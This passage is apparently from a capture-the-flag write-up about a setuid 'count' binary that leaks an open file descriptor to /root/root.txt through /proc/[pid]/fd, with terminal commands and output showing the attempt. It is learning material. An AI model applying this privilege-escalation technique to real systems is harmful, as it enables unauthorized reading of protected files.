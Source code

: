 The intended path to exploit this binary is to abuse the file
descriptors in use by the `count` process. The issue in the source code
is that it never closes `file`, which is the handle to the given
filepath. That means that as long as the program is running, the handle
will be in `/proc/[pid]/fd`. Typically this would be flushed on the
`setuid`, but because of `PR_SET_DUMPABLE`, the file handles will stay
open. To exploit this, I'll run the program, and then background it when
it gets to the prompt:



    dasith@secret:/opt$ ./count 
    Enter source file/directory name: /root/root.txt

    Total characters = 33
    Total words      = 2
    Total lines      = 2
    Save results a file? [y/N]: ^Z
    [1]+  Stopped                 ./count



I'll get the PID of the process, in this case 1536:



    dasith@secret:/opt$ ps auxww | grep count
    root         841  0.0  0.1 235676  7416 ?        Ssl  15:40   0:00 /usr/lib/accountsservice/accounts-daemon
    dasith      1536  0.0  0.0   2488   584 pts/0    T    16:22   0:00 ./count
    dasith      1538  0.0  0.0   6432   728 pts/0    S+   16:22   0:00 grep --color=auto count



In that folder, the `3` points to `root.txt`:



    dasith@secret:/proc/1536/fd$ ls -l
    total 0
    lrwx------ 1 dasith dasith 64 Oct 26 16:23 0 -> /dev/pts/0
    lrwx------ 1 dasith dasith 64 Oct 26 16:23 1 -> /dev/pts/0
    lrwx------ 1 dasith dasith 64 Oct 26 16:23 2 -> /dev/pts/0
    lr-x------ 1 dasith dasith 64 Oct 26 16:23 3 -> /root/root.txt



Unfortunately, I can't read it still:



    dasith@secret:/proc/1536/fd$ cat 3
    cat: 3: Permission denied



This vulnerability doesn't give me the ability to read as root. But it
gives me access into a folder I can't access. For example, the listing
of `/root` is:



    -rw-r--r--      .viminfo
    drwxr-xr-x      ..
    -rw-r--r--      .bashrc
    drwxr-xr-x      .local
    drwxr-xr-x      snap
    lrwxrwxrwx      .bash_history
    drwx------      .config
    drwxr-xr-x      .pm2
    -rw-r--r--      .profile
    drwxr-xr-x      .vim
    drwx------      .
    drwx------      .cache
    -r--------      root.txt
    drwxr-xr-x      .npm